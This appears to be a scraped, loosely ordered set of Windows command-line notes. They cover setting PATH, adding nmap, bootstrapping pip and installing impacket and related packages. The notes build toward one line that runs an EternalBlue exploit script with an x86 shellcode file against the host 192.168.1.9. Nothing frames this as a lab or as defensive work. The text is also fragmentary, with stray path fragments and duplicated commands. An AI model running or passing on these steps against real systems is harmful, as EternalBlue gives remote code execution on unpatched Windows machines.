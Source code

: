 # -SystemRoot-

%USERPROFILE%\Desktop


%SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\

setx PATH "%PATH%;C:\Path\To\nmap"


curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py

python get-pip.py
python get-pip.py



pip install impacket


python eternalblue_exploit7.py 192.168.1.9 sc_x86.bin


python -m pip install --upgrade pip setuptools


python -m pip install cryptography


python -m pip install build


python -m pip install impacket
